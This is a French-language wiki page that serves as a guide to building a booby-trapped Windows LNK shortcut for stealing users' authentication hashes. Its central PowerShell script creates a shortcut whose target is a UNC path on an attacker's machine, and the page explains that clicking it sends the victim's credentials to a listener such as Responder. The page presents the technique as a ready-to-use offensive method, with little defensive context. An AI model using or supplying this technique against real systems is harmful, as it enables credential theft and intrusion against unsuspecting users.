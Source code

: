 ```yaml
---
title: Créer un fichier LNK piégé
description: Guide pour la création de fichier LNK piégé. Un fichier LNK peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.
published: true
date: 2024-10-26T09:51:45.018Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-10-26T09:51:45.018Z
---
```


# Introduction

Guide pour la création de fichier LNK piégé. Un fichier LNK peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.

> Un fichier LNK est utilisé comme un raccourci vers des ressources diverses.
> {.is-info}

La base de l'exploitation repose sur le fait de définir la cible du fichier LNK vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupérer ce fichier.

> Les fichiers LNK piégés sont une alternative aux fichiers SCF piégés, qui ne fonctionnent plus sur les environnements Windows Server 2019.
> {.is-info}

# Création du fichier

```
# Créer un nouvel objet COM et le stocker dans la variable COMobjShell.
$COMobjShell = New-Object -ComObject WScript.Shell
# Appeller la méthode CreateShortcut de l'objet pour créer le raccourci.
$lnk = $COMobjShell.CreateShortcut("<emplacement fichier .lnk>")
# Définir la cible du raccourci.
$lnk.TargetPath = "\\<adresse de la machine attaquante>\<fichier>"
# Défini le style de fenêtre, ici : "La fenêtre est mise au premier plan et est restauré à sa taille et sa position d'origine."
$lnk.WindowStyle = 1
# Définir l'icône du raccourci.
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
# Définir une description du raccourci
$lnk.Description = "ceci est un fichier lnk"
# Définir la combinaison de touches pour ouvrir le raccourci.
$lnk.HotKey = "Ctrl+Alt+O"
# sauvegarder le raccourci.
$lnk.Save()
```

> Le fichier ainsi que le partage n'existent pas obligatoirement sur le serveur attaquant, il est possible d'avoir uniquement un outil comme Responder pour intercepter les hash.
> {.is-info}

A présent, le fichier est maintenant créer, il suffit d'attendre que le fichier soit cliqué pour recevoir les informations d'authentification sur notre machine attaquante.

# Voir aussi

Fiche technique pour la création d'un fichier SCF piégé
[voir la page](/Fiches-techniques/Windows/Creer-un-fichier-SCF-piégé)

Lnkbomb, créer des fichiers raccourcis .url malveillants
[voir la page](/Outils/Indépendant/Lnkbomb)
